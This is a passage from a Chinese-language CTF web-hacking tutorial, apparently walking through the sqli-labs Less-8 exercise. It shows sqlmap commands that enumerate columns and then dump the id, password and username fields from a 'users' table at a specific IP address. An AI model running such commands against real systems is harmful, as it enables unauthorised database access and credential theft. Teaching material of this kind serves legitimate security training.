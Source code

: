 4.然后我们选择user这个表，然后爆字段

>sqlmap -u 39.98.88.18:8080/sql/Less-8/index.php?id=1 -D security -T users --columns

![](img/2.7/17.png)


5.接下来我们导出字段

> sqlmap -u 39.98.88.18:8080/sql/Less-8/index.php?id=1 -D security -T users -C id,password,username --dump

![](img/2.7/18.png)

成功导出数据。

## 八、课后习题

习题地址：https://t.zsxq.com/QJEEAqF

## 九、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接
